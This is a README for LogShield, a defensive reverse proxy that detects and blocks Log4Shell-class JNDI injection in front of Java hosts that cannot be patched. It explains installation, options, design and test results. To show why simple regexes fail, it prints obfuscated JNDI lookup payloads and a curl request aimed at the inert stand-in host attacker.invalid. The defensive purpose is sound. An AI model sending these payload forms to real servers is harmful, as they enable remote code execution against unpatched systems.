


# LogShield

[](https://github.com/TurlaFSB/logshield/actions/workflows/ci.yml)
[](https://github.com/TurlaFSB/logshield/actions/workflows/codeql.yml)
[](https://www.bestpractices.dev/projects/15621)
[](https://scorecard.dev/viewer/?uri=github.com/TurlaFSB/logshield)
[](https://github.com/TurlaFSB/logshield/releases)
[](go.mod)
[](LICENSE)

A **virtual-patch reverse proxy for Log4Shell-class attacks** (CVE-2021-44228,
CVE-2021-45046, CVE-2021-45105). LogShield sits in front of a host that cannot be
patched (end-of-life OS, vendor-locked appliance, OT/ICS endpoint), reconstructs
what Log4j would see in each request, and blocks exploit attempts before they
reach the host. It is a **compensating control**, not a fix: patch, remove
`JndiLookup`, or retire the host as soon as you can.

> **Status: v0.1.0, first stable release.** The inspection engine and the proxy
> (HTTP/1.1, HTTPS and HTTP/2, metrics, health checks, configuration) are heavily
> tested, and the detection corpus was validated in a lab against real Log4j 2.14.1
> (107 of 107 JNDI attempts caught, 0 misses, 0 false positives; see
> [the lab report](docs/lab-report.md)). Releases are signed, reproducible and
> carry build provenance and an SBOM ([verify them](docs/releasing.md)). Below 1.0
> the public surface may still change in a minor release, always noted in the
> [changelog](CHANGELOG.md). Start in monitor mode before relying on it.

## At a glance

Say you run an old web application, such as a plant's reporting dashboard, that
uses a vulnerable Log4j. The vendor cannot patch it until next year, or the server
is too old to upgrade. An attacker who sends a request containing something like
`${jndi:ldap://...}` can make that application reach out and run what comes back.

LogShield is a gatekeeper you put **in front of** that application:



Every request passes through LogShield first. It works out what Log4j would make
of each part of the request, including the disguised forms, and refuses the ones
that would trigger a lookup. Everything else goes through unchanged. You change
the network path, not the vendor's software.

**Who it is for:** teams that run Java applications they cannot patch yet,
especially in operational technology (OT/ICS) and other legacy environments, and
security engineers who need a documented compensating control for them.

**How you use it:**

1. [Install it](#install) (one container or one static binary) and give it the
   address of the application it protects.
2. Make the application reachable **only** through LogShield: bind it to
   localhost, or firewall it so only LogShield can reach it. This is the step that
   makes the protection real.
3. Run in **monitor mode** for a few days. It records what it would block and
   blocks nothing, so you can check it against your real traffic.
4. Switch to **block mode**. Attack requests now get a `403` and never reach the
   application.
5. Watch the [metrics and logs](docs/observability.md), and keep a plan to patch
   or retire the application, because this is a stopgap.

A longer walk-through, with deployment patterns for systemd, Kubernetes and nginx,
is in [docs/deployment.md](docs/deployment.md).

## Common questions

**Does it replace patching?** No. It is a compensating control for one attack
class. Patch Log4j (2.17.1 or later), remove the `JndiLookup` class, or retire the
host as soon as you can.

**Does it slow my application down?** In the load test it added about 0.7 ms at
the 99th percentile for a single client on a small machine
([load report](docs/load-report.md)). Measure it on your own traffic.

**What if LogShield goes down?** It sits in the request path, so a single instance
is a single point of failure. Run it under a supervisor (systemd or Kubernetes
restart policies), use the health endpoints, and run more than one instance where
availability matters. What it does when inspection itself fails is a setting you
choose: `on_error: closed` (refuse) or `open` (forward, counted in a metric).

**Does it work with HTTPS?** Yes. It can terminate TLS itself (HTTP/2 included) or
sit behind a TLS terminator such as nginx. Traffic it cannot decrypt cannot be
inspected.

**Which Log4j versions was it tested against?** The lab validation used Log4j
2.14.1 on OpenJDK 8. Other versions and JDKs are not covered by that result; see
the [limits](docs/lab.md).

**Is it a general web application firewall?** No. It looks for Log4Shell-class
payloads only, and it does not replace a WAF.

**I found a bypass.** Please report it privately, as described in
[SECURITY.md](SECURITY.md). Confirmed bypasses become regression tests and are
credited.

## What it does not do

Read this before deploying. LogShield is a compensating control for one attack
class, not a substitute for patching.

- It protects only traffic that **crosses the proxy**. Other ports, other
  protocols (syslog, SMTP, LDAP, message queues) and internal pivots need network
  segmentation.
- It cannot see **second-order injection**: data stored earlier and logged later
  by another component.
- Any signature-style control can miss an **encoding it does not model**. The
  [threat model](docs/threat-model.md) lists the known gaps.
- A fresh install is in **monitor mode**: it records and counts, it does not
  block, until you switch to `-mode block` ([why](docs/assurance.md#cisa-secure-by-design)).

## Why a proxy, and why not just a regex

Blocking the string `${jndi:` is trivially bypassed, because Log4j resolves
nested lookups at runtime:

```
${${lower:j}ndi:${lower:l}dap://attacker.invalid/a}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//attacker.invalid/a}
```

and requests can hide the same text behind percent-encoding, `%uXXXX`, HTML
entities, overlong UTF-8, fullwidth characters, UTF-16/32, gzip, zlib, base64,
multipart parts, and Basic or Bearer credentials. LogShield therefore:

1. **Decodes** every field through all plausible layers, with hard budgets.
2. **Resolves** Log4j lookups the way Log4j's own substitutor does (name-first
   substitution, `:-` defaults, case functions, re-expansion).
3. **Decides** from what the resolved text would actually do, not from what it
   looks like.

The proxy then guarantees that **what it forwards is exactly what it inspected**.

## Install

Pick one. Every release is signed and attested; the
[verification commands](docs/releasing.md#verifying-a-download) take a minute.

```sh
# Container: distroless, non-root, multi-arch. Pin the digest in production.
docker run --rm -p 8080:8080 \
  -e LOGSHIELD_UPSTREAM=http://192.0.2.10:8081 \
  ghcr.io/turlafsb/logshield:v0.1.0

# Static binary (Linux, macOS, Windows; amd64 and arm64): download from the
# Releases page, then
tar xzf logshield_v0.1.0_linux_amd64.tar.gz
./logshield_v0.1.0_linux_amd64/logshield -version
```

Or build from source (Go 1.24 or newer), as below.

## Quick start

```sh
git clone https://github.com/TurlaFSB/logshield && cd logshield
make build

# Watch first: monitor mode (the default) logs detections and blocks nothing.
./bin/logshield -upstream http://127.0.0.1:8081

# Then enforce.
./bin/logshield -upstream http://127.0.0.1:8081 -mode block

# Hosts that cannot be patched: also block suspicious Log4j syntax.
./bin/logshield -upstream http://127.0.0.1:8081 -mode block -block-suspicious
```

A real run in block mode (the payload points at a reserved `.invalid` name and
is inert):

```console
$ curl -i -H 'User-Agent: ${jndi:ldap://attacker.invalid/a}' http://127.0.0.1:8080/
HTTP/1.1 403 Forbidden
Cache-Control: no-store
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
X-Request-Id: 84fb455f7f3b45bc

Request blocked
reference: 84fb455f7f3b45bc
```

and the structured log line it produced (note that evidence never contains a
live `${`, so the log itself cannot re-trigger a vulnerable log pipeline):

```json
{"level":"WARN","msg":"request blocked","id":"84fb455f7f3b45bc","action":"blocked","status":403,
 "decision":"malicious","rules":["LSH-1001"],"path":"/","query_bytes":0,"inspect_us":28,
 "detections":[{"rule":"LSH-1001","severity":"malicious","location":"header-value:User-Agent",
                "scheme":"ldap","evidence":"ldap://attacker.invalid/a"}]}
```

### Options

| Flag | Default | Meaning |
|---|---|---|
| `-upstream` | required | Protected server, `scheme://host[:port]`. |
| `-listen` | `127.0.0.1:8080` | Listen address (loopback by default on purpose). |
| `-mode` | `monitor` | `monitor` records only; `block` also rejects. |
| `-block-suspicious` | off | In block mode, also reject `suspicious` verdicts. |
| `-on-error` | `closed` | Block mode: fail `closed` or `open` if inspection itself fails. |
| `-max-body` | 1 MiB | Largest body that is buffered and inspected. |
| `-skip-body-type` | none | Media type or prefix (`image/`) streamed uninspected. Repeatable. |
| `-forwarded-for` | `replace` | `replace`, `append` or `off`. |
| `-rewrite-host` | off | Send the upstream's host instead of the client's. |
| `-tls-cert`, `-tls-key` | off | Serve HTTPS with HTTP/2; the certificate is reloaded when the file changes. `-tls-min-version` (1.2 or 1.3). |
| `-upstream-ca`, `-upstream-server-name` | system roots | Verify an https upstream against a private CA or a specific name. |
| `-admin-listen` | off | Address for `/metrics`, `/healthz`, `/readyz` ([observability](docs/observability.md)). |
| `-read-timeout`, `-client-write-timeout`, `-drain-delay` | 30s, 60s, 0s | Request read limit, slow-reader cut-off, and graceful-shutdown delay ([configuration](docs/configuration.md)). |
| `-max-in-flight` | 1024 | Concurrency limit; the next request gets `503` + `Retry-After`. `-1` disables. |
| `-log-level` | `info` | `debug`, `info`, `warn`, `error`. |
| `-disable-rule` | none | Switch off a non-mandatory rule by ID. Repeatable. |
| `-config` | none | JSON configuration file; environment variables `LOGSHIELD_*` and flags override it ([configuration](docs/configuration.md)). |
| `-check-config` | | Validate everything, print the effective configuration, and exit. |
| `-version` | | Print version and exit. |

Details, policies and limitations: [docs/proxy.md](docs/proxy.md).

## How it works



| Verdict | Meaning | Default action |
|---|---|---|
| `clean` | No detections. | Forward. |
| `suspicious` | Unusual Log4j syntax, not proof of an attack. | Forward and log (block with `-block-suspicious`). |
| `malicious` | A JNDI lookup was found, or any budget was exhausted. | Block (in block mode). |

Rules are stable IDs (`LSH-1001` to `LSH-3003`) mapped to CVEs; see
[docs/engine/rules.md](docs/engine/rules.md).

## Design principles

- **Deobfuscation, not string matching.** See above.
- **Pure, bounded engine.** `internal/engine` does no I/O, keeps no global state,
  and every loop has a budget. Exceeding a budget is a block, never a pass
  ([ADR 0002](docs/adr/0002-engine-design-constraints.md)); the lint config
  enforces the purity.
- **No parser differentials toward the backend.** The proxy re-serializes every
  request (single `Content-Length`, no `Transfer-Encoding`, no trailers), sends the
  request target verbatim, refuses requests it cannot forward unambiguously, and a
  final guard checks the outbound request against the inspected one
  ([ADR 0003](docs/adr/0003-proxy-normalize-and-reforward.md)).
- **Safe logging.** Every logged string has `${` neutralized; the query string is
  never logged.
- **Safe defaults.** Loopback listener, monitor mode, hardened timeouts and header
  limits, no environment proxies, standard library only.
- **Measured, not claimed.** See below.

## Evidence

| Measure | Target | Result |
|---|---|---|
| Bypass corpus (165 entries, 14 classes, provenance per entry) not blocked | 0 | **0** |
| Benign requests blocked (111 hand-written + 100,000 generated) | < 0.1% (95% bound) | **0**, bound < 0.0038% |
| Against real vulnerable Log4j 2.14.1 in the lab: JNDI lookups Log4j attempted / flagged / forwarded to it | all flagged | **107 / 107 / 0** ([report](docs/lab-report.md)) |
| Added latency through the proxy, 1 client (p99) | < 5 ms | **0.7 ms** ([load report](docs/load-report.md)) |
| Engine cost per request | well under the 5 ms p99 budget | about 4 to 10 µs typical, about 3 ms worst case before fail-closed |
| Test coverage | at least 97% total, 98% engine | 97.5% total, 99.5% engine |

Plus property tests, fuzzing (every PR, plus a weekly long run), race-detector
tests, a hostile-request suite for the proxy, and integration tests with the proxy
in front of real Node.js, Python and JDK servers. Full report:
[docs/eval/report.md](docs/eval/report.md); methodology:
[docs/engine/testing.md](docs/engine/testing.md); latency:
[docs/performance.md](docs/performance.md).

**Read the numbers honestly.** The lab row is one Log4j version (2.14.1), one
JDK (OpenJDK 8) and one logging path, and the oracle is "Log4j attempted a JNDI
lookup", not a working exploit ([limits](docs/lab.md)). The benign corpus is
synthetic. Both are stated in the
[threat model](docs/threat-model.md), together with the known gaps (Unicode
normalization beyond fullwidth, application-specific encodings, payloads split
across requests).

## Scope and safe use

LogShield is a defensive tool. All test payloads in this repository are inert
strings that point only to reserved, non-routable names. All validation is
performed against systems owned by the author in an isolated lab network. Do not
test against systems you do not own or have written authorization to test.

## Documentation

| Topic | Where |
|---|---|
| Proxy design, policies, limitations | [docs/proxy.md](docs/proxy.md) |
| Lab: design, oracle, containment, reference report | [docs/lab.md](docs/lab.md), [docs/lab-report.md](docs/lab-report.md) |
| Threat model and residual risk | [docs/threat-model.md](docs/threat-model.md) |
| Decoder, resolver, rules | [docs/engine/](docs/engine/) |
| Testing strategy | [docs/engine/testing.md](docs/engine/testing.md) |
| Evaluation report and performance | [docs/eval/report.md](docs/eval/report.md), [docs/performance.md](docs/performance.md) |
| Corpora and provenance | [corpus/README.md](corpus/README.md) |
| Architecture decisions | [docs/adr/](docs/adr/) |
| Configuration file, environment, flags | [docs/configuration.md](docs/configuration.md) |
| Deploying it: topologies, rollout, systemd, Kubernetes, nginx | [docs/deployment.md](docs/deployment.md) |
| OT/ICS use: zones and conduits, compensating control, availability trade-off | [docs/ot-ics.md](docs/ot-ics.md) |
| Versioning, release contents, verifying signatures and provenance | [docs/releasing.md](docs/releasing.md) |
| Assurance: Scorecard, Best Practices, SLSA and SSDF self-assessment | [docs/assurance.md](docs/assurance.md) |
| Load and latency report | [docs/load-report.md](docs/load-report.md) |
| Metrics, health checks, overload, Prometheus and Sigma rules | [docs/observability.md](docs/observability.md) |
| Roadmap and changelog | [docs/ROADMAP.md](docs/ROADMAP.md), [CHANGELOG.md](CHANGELOG.md) |
| Project governance, security policy, support | [GOVERNANCE.md](GOVERNANCE.md), [SECURITY.md](SECURITY.md), [SUPPORT.md](SUPPORT.md) |

## Development

Requires Go 1.24 or newer.

```sh
make build        # ./bin/logshield
make check        # vet, lint, tests with race detector, coverage floors
make fuzz         # fuzz each target (FUZZTIME=30s by default)
make load         # latency overhead of the proxy; rewrites docs/load-report.md
make integration  # proxy in front of real Node, Python and JDK backends
make bench        # benchmarks
make eval         # regenerate the evaluation report
make vuln         # govulncheck
```

See [CONTRIBUTING.md](CONTRIBUTING.md), the [Code of Conduct](CODE_OF_CONDUCT.md) and [GOVERNANCE.md](GOVERNANCE.md).

## Citing

If you use LogShield in research, cite it with the metadata in
[CITATION.cff](CITATION.cff) (GitHub shows a "Cite this repository" button).

## Security

To report a vulnerability, use GitHub private vulnerability reporting as
described in [SECURITY.md](SECURITY.md). Please do not open a public issue.

## License

[MIT](LICENSE)
